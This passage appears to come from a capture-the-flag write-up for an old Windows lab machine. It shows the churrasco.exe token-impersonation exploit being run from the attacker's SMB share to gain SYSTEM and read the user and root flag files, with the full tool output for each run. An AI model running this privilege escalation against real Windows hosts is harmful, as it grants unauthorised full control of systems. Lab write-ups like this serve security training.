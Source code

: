 We are `SYSTEM`!




To get the user and root flags we can use the following commands:

```
C:\Documents and Settings>\\10.10.16.209\exploit\churrasco.exe -d "cd C:\Documents and Settings\Lakis\Desktop && type user.txt"
\\10.10.16.209\exploit\churrasco.exe -d "cd C:\Documents and Settings\Lakis\Desktop && type user.txt"
/churrasco/-->Current User: NETWORK SERVICE 
/churrasco/-->Getting Rpcss PID ...
/churrasco/-->Found Rpcss PID: 676 
/churrasco/-->Searching for Rpcss threads ...
/churrasco/-->Found Thread: 680 
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 684 
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 692 
/churrasco/-->Thread impersonating, got NETWORK SERVICE Token: 0x72c
/churrasco/-->Getting SYSTEM token from Rpcss Service...
/churrasco/-->Found SYSTEM token 0x724
/churrasco/-->Running command with SYSTEM Token...
/churrasco/-->Done, command should have ran as SYSTEM!

700c5dxxxxxxxxxxxxxxxxxxxxxxxxx
```

```
C:\Documents and Settings>\\10.10.16.209\exploit\churrasco.exe -d "cd C:\Documents and Settings\Administrator\Desktop && type root.txt"
\\10.10.16.209\exploit\churrasco.exe -d "cd C:\Documents and Settings\Administrator\Desktop && type root.txt"
/churrasco/-->Current User: NETWORK SERVICE 
/churrasco/-->Getting Rpcss PID ...
/churrasco/-->Found Rpcss PID: 676 
/churrasco/-->Searching for Rpcss threads ...
/churrasco/-->Found Thread: 680 
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 684 
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 692 
/churrasco/-->Thread impersonating, got NETWORK SERVICE Token: 0x72c
/churrasco/-->Getting SYSTEM token from Rpcss Service...
/churrasco/-->Found SYSTEM token 0x724
/churrasco/-->Running command with SYSTEM Token...
/churrasco/-->Done, command should have ran as SYSTEM!
aa4beed1cxxxxxxxxxxxxxxxxxxxxxxx
```